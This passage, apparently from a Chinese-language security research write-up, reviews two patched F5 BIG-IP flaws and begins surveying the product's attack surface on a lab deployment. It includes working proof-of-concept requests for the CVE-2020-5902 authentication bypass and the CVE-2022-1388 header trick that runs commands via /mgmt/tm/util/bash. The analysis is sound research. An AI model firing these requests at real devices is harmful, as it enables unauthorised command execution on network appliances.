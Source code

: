 CVE-2020-5902 的概念证明是一个简单的 HTTP 请求，用于绕过身份验证要求并向“tmshCmd.jsp”端点发送请求，该端点在系统上执行 tmsh 命令。以下是绕过身份验证的curl请求示例：

```plain
curl -k 'https://<host>:<port>/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin'
```

攻击者在野利用了该漏洞，CISA 发布了有关该活动的[公告](https://www.cisa.gov/news-events/cybersecurity-advisories/aa20-206a)。"/tmui" API包含了与此漏洞相关的处理程序代码。

F5的第二个漏洞于2022年进行披露，编号为([CVE-2022-1388](https://my.f5.com/manage/s/article/K23605346))。由于 HTTP 逐跳标头的处理方式，设置标头“Connection: X-F5-Auth-Token”会导致“X-F5-Auth-Token”标头不会在请求中后端代码处理中出现。在没有该头部的情况下，后端代码并不会停止处理，导致请求成功通过，仿佛已经经过了身份验证。

下面的示例请求（来自此[概念证明](https://github.com/alt3kx/CVE-2022-1388_PoC)）导致代码执行"/mgmt/tm/util/bash" API是一个执行命令并返回结果的端点。

```plain
POST /mgmt/tm/util/bash HTTP/1.1
Host: <redacted>:8443
Authorization: Basic YWRtaW46
Connection: keep-alive, X-F5-Auth-Token
X-F5-Auth-Token: 0
{"command": "run" , "utilCmdArgs": " -c 'id' " }
```

此身份验证漏洞涉及 F5 BIG-IP API 的不同组件，即“/mgmt”处理程序。

F5已经修补了这两个漏洞，并进一步更新了“/tmui”API 中的相关 JSP 处理程序以限制其功能。现在，“fileRead.jsp”处理程序将不再读取任意文件（它仅限于一个非常小的子集），并且“tmshCmd.jsp”处理程序不会执行任意 tmsh 命令（它是“ilx”相关功能的一个小子集）。

## F5 BIG-IP 攻击面

我们使用一个[AWS Marketplace模板](https://aws.amazon.com/marketplace/pp/prodview-lphsy6izllsmq?sr=0-1&ref_=beagle&applicationId=AWSMPContessa)部署了默认的F5安装，并开始在服务器上识别组件。

```plain
[admin@localhost:Active:Standalone] ~ # cat /etc/os-release
NAME="CentOS Linux"
VERSION="7 (Core)"
ID="centos"
ID_LIKE="rhel fedora"
VERSION_ID="7"
PRETTY_NAME="CentOS Linux 7 (Core)"
ANSI_COLOR="0;31"
CPE_NAME="cpe:/o:centos:centos:7"
HOME_URL="https://www.centos.org/"
BUG_REPORT_URL="https://bugs.centos.org/"
CENTOS_MANTISBT_PROJECT="CentOS-7"
CENTOS_MANTISBT_PROJECT_VERSION="7"
REDHAT_SUPPORT_PRODUCT="centos"
REDHAT_SUPPORT_PRODUCT_VERSION="7"
[admin@localhost:Active:Standalone] ~ # uname -r
3.10.0-862.14.4.el7.ve.x86_64
```
